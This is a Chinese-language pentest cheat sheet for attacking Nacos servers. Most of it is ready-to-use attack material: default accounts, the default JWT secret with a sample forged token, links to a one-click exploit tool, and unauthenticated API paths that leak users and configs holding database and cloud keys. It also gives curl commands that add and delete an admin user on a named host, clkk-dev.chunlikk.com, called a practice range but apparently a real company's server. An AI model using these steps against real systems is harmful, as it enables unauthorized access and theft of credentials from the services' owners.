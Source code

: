Nacos是一个开源的、易于配置的动态服务发现、配置管理和服务管理平台。它主要用于构建微服务架构，提供了服务注册与发现、动态配置管理、服务健康监测等功能。Nacos是阿里巴巴开源的项目，它支持多种环境下的服务发现和配置管理，包括Kubernetes、Docker、Spring Cloud等。

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。



使用：
在 Java 微服务项目中，可以通过以下步骤使用 Nacos 管理配置：
1. **添加依赖**：在项目的 `pom.xml` 文件中添加 Nacos 客户端的依赖。
2. **配置 Nacos 客户端**：在应用的配置文件中（如 `application.properties` 或 `application.yml`），配置 Nacos 服务器的地址和其他相关参数。
3. **使用 Nacos 配置**：在 Java 代码中，通过 Nacos 客户端 API 来获取和监听配置变化。
4. **环境抽象**：定义不同环境下的配置文件，例如 `application-dev.yml`、`application-prod.yml` 等，并通过 Nacos 管理这些配置文件的内容。
5. **配置刷新**：实现配置的动态刷新逻辑，以便在配置更新时，服务能够接收到最新的配置信息。


比如：
一个微服务就是一个docker镜像，在启动的时候，添加docker run的-e参数指定环境变量Nacos的ip，就会去Nacos获取对应的配置文件。

^



## **基础了解**
开发文档：<https://nacos.io/docs/v2/quickstart/quick-start/>
国内企业常用，hw中常见，且利用难度低。
nacos常见端口为：8848
nacos后台中心：http:/xxx:8848/nacos
还可能/nacos/#/ 否则404.


Nacos 默认帐户名密码：nacos/nacos  test/test


```
nacos配置文件中有jwt密钥
nacos\conf\application.properties

<=2.2.0的jwt默认密钥，高版本也可能设置为默认密钥：
SecretKey012345678901234567890123456789012345678901234567890123456789

jwt示例
eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcyNTI2NDc2N30.XjXf7RqvSWGGRWjlQc370Cw1nGpK2l_PcRCTRluO2ts
```
利用工具：Nacos漏洞综合利用工具_v3.9Author:charonlight。探测漏洞，利用漏洞一键添加后台用户。
靶场：vluhub

最常用的版本2.x.x
常见漏洞版本
| Nacos <= 2.2.0 | JWT 默认密钥导致的 Nacos 身份认证绕过漏洞 |
| Nacos < 1.4.1 | Nacos 存在一个由于不当处理 User-Agent 导致的鉴权绕过漏洞 |



^
## **弱口令登录后台**
在命名空间`public`、`FIRST_GROUP_DEV`、`FIRST_GROUP_TEST`等
的配置详情中，可能有服务的配置，如redis，mysql的账号密码，jwt密钥等。


^
## **工具**
<https://github.com/charonlight/NacosExploitGUI>

^
## **常见漏洞**
靶场：<http://clkk-dev.chunlikk.com:8848/>
常见漏洞未授权访问，敏感信息泄露，身份认证绕过等，也可能有springboot站点。

JWT身份绕过：
https://blog.csdn.net/cangyu51462/article/details/130324138
添加用户等：
https://www.cnblogs.com/xyz315/p/15853268.html
https://www.cnblogs.com/xyz315/p/15853268.html
JWT实现身份验证绕过：
https://blog.csdn.net/m0_62151449/article/details/1305205702
时间戳：https://tool.lu/timestamp


更多分析：
<https://h0ny.github.io/posts/Nacos-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/>
^
## **可能存在的未授权 API**

0x01 用户信息 API
```
/v1/auth?pageNo=1&pegeSize=20
/nacos/v1/auth/users?pageNo=1&pageSize=9


用户搜索：
/v1/auth/search?username=搜索

任意用户添加：
curl -X POST 'http://clkk-dev.chunlikk.com:8848/v1/auth/users?username=ai618&password=ai618'
查询添加是否成功：
http://clkk-dev.chunlikk.com:8848/v1/auth/search?username=ai618
删除用户：
curl -X DELETE 'http://clkk-dev.chunlikk.com:8848/v1/auth/users?username=ai618'
```
0x02 集群信息 API
```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```
0x03 配置信息 API
```
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=9&tenant=&search=accurate&accessToken=&username=
```

这一接口在未授权的情况下，或者直接弱口令登录后台可能会暴露MySQL、Redis、Druid  postgresql   mongodb等配置信息，若存在云环境、文件系统，还可能暴露各种key,举几个例子 accessKey、secretKey微信key...

